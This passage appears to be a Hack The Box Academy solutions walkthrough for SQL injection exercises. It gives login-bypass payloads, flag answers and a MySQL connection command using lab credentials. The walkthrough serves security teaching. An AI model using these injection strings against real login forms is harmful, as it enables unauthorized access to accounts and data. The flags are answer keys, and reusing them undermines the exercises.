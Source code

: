 Code: sql

```sql
tom' OR '1' = '1' -- -
```

![[HTB Solutions/CBBH/z. images/fb253166278de9adb71521ae57a7810d_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/58e854ce94e7c038c5ba4fea4df5d75d_MD5.jpg]]

Answer: `202a1d1a8b195d5e9a57e434cc16000c`

# Using Comments

## Question 1

### "Login as the user with the id 5 to get the flag."

After knowing the structure of the query by trial and error, students need to bypass it using the following query:

Code: sql

```sql
' OR ID=5)-- -
```

![[HTB Solutions/CBBH/z. images/a34108c5d102531c862f69ea5827df7e_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/f62eb79d655010d7def5e911466a76ac_MD5.jpg]]

Answer: `cdad9ecdf6f14b45ff5c4de32909caec`

# Union Clause

## Question 1

### "Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table."

Students first need to connect to the MySQL server on the spawned target machine, using the credentials `root:password`:

Code: shell

```shell
mysql -h STMIP -P STMPO -u root -ppassword
```

```
┌─[eu-academy-2]─[10.10.15.14]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ mysql -h 46.101.61.42 -P 30658 -u root -ppassword

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal 
mariadb.org binary distribution
```
